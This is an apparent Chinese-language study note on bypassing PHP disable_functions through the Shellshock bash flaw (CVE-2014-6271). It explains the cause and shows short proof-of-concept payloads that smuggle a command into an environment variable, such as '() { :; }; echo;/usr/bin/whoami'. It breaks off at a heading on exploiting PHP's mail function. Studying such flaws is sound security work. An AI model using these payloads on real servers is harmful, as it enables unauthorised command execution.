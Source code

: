 # bypass disable_function

## GNU Bash 环境变量远程命令执行漏洞 CVE-2014-6271

>    被攻击的bash存在漏洞（版本小于等于4.3）
>    攻击者可以控制环境变量
>    新的bash进程被打开触发漏洞并执行命令

利用php的mail函数:https://www.exploit-db.com/exploits/35146 

https://www.antiy.com/response/CVE-2014-6271.html

### **漏洞原理**

4.3及之前的bash启动解析环境变量时未对边界进行严格的限制

“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。核心的原因在于在输入的过滤中没有严格限制边界，没有做合法化的参数判断。



bash函数的格式,调用函数只需变量名+参数即可`函数 参数1 参数2`

```bash
funtion ShellShock 
{ echo "Injection"} ShellShock   #调用这个函数
```

这个时候的Bash的环境变量：

```
KEY = ShellShockVALUE = () { echo Injection; }


```

来看看ShellShock漏洞的真身：

```shell
export ShellShock='() { :; }; echo;/usr/bin/whoami'
bash>Kr0iN
```

看看环境变量你有什么
![image.png](https://i.loli.net/2019/09/11/nhgdTelRLotsjym.png)




```bash
env x='() { :;}; echo Vulnerable CVE-2014-6271 ' bash -c "echo test"
```

![image.png](https://i.loli.net/2019/09/11/nhgdTelRLotsjym.png)



### 利用方式

#### php的mail函数()
